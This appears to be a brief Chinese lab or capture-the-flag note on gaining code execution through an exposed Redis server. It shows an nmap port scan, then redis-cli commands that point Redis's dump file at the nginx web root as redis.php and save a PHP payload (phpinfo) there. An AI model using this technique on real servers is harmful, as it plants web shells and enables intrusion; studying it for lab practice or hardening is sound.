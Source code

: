 
redis写shell

## 端口发现

```bash
┌──(fforu㉿fforu)-[~/workspace/res]
└─$ sudo nmap -sT --min-rate 9999 -p- 10.10.96.10
PORT     STATE SERVICE
80/tcp   open  http
6379/tcp open  redis
```
## 写shell
nc或者redis-cli连接
nc -vn 10.10.10.10 6379
redis-cli -h 10.10.10.10
```bash

10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```
